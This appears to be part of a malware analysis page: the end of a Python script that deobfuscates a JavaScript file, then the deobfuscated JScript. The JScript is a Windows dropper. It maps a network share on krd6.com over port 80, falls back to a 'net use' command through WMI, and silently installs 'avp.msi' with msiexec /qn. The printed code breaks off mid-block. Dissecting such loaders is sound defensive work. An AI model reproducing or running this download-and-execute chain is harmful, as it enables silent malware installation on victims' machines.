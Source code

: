 ```python

    # Write the result to the output file
    with open(output_file, 'w', encoding='utf-8') as f_out:
        for clean_line in deobfuscated_lines:
            f_out.write(clean_line + '\n')
    
    print(f"[+] Deobfuscation complete! Output saved to: {output_file}")


# --- HOW TO USE ---
# 1. Save the code above as a Python file (e.g., deobfuscator.py).
# 2. Place your obfuscated JS file (e.g., source.js) in the same directory.
# 3. Change the filenames below and run the script.

input_filename = 'source.js'   # <-- PUT YOUR INPUT FILENAME HERE
output_filename = 'deobfuscated.js' # <-- CHOOSE YOUR OUTPUT FILENAME HERE

deobfuscate_js_comments(input_filename, output_filename)
```

## DeObfuscated code

```js
var network = new ActiveXObject("WScript.Network");
var wmi = GetObject("winmgmts:\\.\root\cimv2");
var attempt = 0;
var connected = false;
var driveLetter, letter;

function isDriveMapped(letter) {
    var drives = network.EnumNetworkDrives();
    for (var i = 0; i < drives.length; i += 2) {
        if (drives.Item(i) === letter) {
            return true;
        }
    }
    return false;
}

for (driveLetter = 90; driveLetter >= 65 && !connected; driveLetter--) {
    letter = String.fromCharCode(driveLetter) + ":";
    if (!isDriveMapped(letter)) {
        try {
            network.MapNetworkDrive(letter, "\\krd6.com@80\share\");
            connected = true;
            break;
        } catch (e) {
            attempt++;
        }
    }
}

if (!connected && attempt > 5) {
    var command = 'net use ' + letter + ' \\krd6.com@80\share\ /persistent:no';
    wmi.Get("Win32_Process").Create(command, null, null, null);
    var startTime = new Date();
    while (new Date() - startTime < 3000) {}
    connected = isDriveMapped(letter);
}

if (connected) {
    var installCommand = 'msiexec.exe /i \\krd6.com@80\share\avp.msi /qn';
    wmi.Get("Win32_Process").Create(installCommand, null, null, null);
```